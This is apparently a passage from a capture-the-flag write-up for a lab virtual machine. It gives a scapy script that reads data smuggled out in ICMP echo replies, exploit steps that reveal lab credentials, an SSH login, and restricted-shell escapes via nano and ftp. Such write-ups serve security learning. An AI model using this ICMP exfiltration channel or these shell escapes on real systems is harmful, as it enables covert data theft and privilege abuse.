 

### Receiver

```py

# recieve-icmp.py
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="vboxnet0", prn=process_packet)


```

## Exploit

```bash
python3 browser.py
# ls -al
# ./sysadmin-tool
# ./sysadmin-tool --activate-service


sudo python3 recieve-icmp.py
Usage: sysadmin-tool --activate-service
Service started...
Use avida:dollars to access.


```

## Post exploit

```console

ssh avida@192.168.56.8 # dollars

```
### Escape jail

```console
    # with nano
    nano -s /bin/bash
    /bin/bash
    ^T

    # with ftp
    ftp
    !
    /bin/bash

    # export evironement
    $ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/avida/usr/bin
    $ export SHELL=/bin/bash


```

